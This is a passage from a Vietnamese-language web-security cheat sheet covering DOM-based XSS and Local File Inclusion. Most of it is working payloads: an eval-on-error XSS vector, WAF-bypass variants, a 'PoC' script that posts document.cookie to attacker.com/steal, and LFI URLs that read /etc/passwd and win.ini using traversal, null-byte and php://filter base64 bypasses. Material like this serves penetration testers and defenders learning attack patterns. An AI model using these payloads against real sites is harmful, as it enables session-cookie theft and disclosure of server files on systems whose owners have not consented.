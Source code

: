 #### 3. DOM-based XSS:

JavaScript được thực thi thông qua việc thay đổi DOM của trang, thường xảy ra hoàn toàn ở phía client.

```javascript
# Tấn công các hàm như document.URL, document.location
<img src=x onerror=eval(location.hash.substring(1))>#alert("XSS")

# Tấn công các hàm jQuery như $("#element").html(user_input)
```

### XSS Cheat Sheet và Bypass Techniques:

```javascript
# Bypass WAF
<svg/onload=alert`1`>
<svg><script>alert&#40;1)</script>
<img src=1 href=1 onerror="javascript:alert(1)"></img>
<body/onload=&lt;!--&gt;&#10alert(1)>

# PoC để chứng minh impact
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'https://attacker.com/steal', true);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send('data='+document.cookie);
</script>
```

## 3.3. File Inclusion Vulnerabilities (LFI/RFI)

File Inclusion Vulnerabilities cho phép kẻ tấn công đưa files từ server (LFI) hoặc từ xa (RFI) vào ứng dụng web, có thể dẫn đến lộ thông tin nhạy cảm hoặc thực thi mã từ xa.

### Local File Inclusion (LFI):

```
# Các payloads cơ bản
http://target.com/page.php?file=../../../etc/passwd
http://target.com/page.php?file=../../../windows/win.ini

# Bypass các filter cơ bản
http://target.com/page.php?file=....//....//....//etc/passwd
http://target.com/page.php?file=../../../etc/passwd%00    # Null byte (PHP < 5.3.4)
http://target.com/page.php?file=../../../etc/passwd\0
http://target.com/page.php?file=/var/www/../../etc/passwd

# Sử dụng wrapper PHP (PHP <= 8.0)
http://target.com/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
http://target.com/page.php?file=php://filter/read=convert.base64-encode/resource=/etc/passwd
```
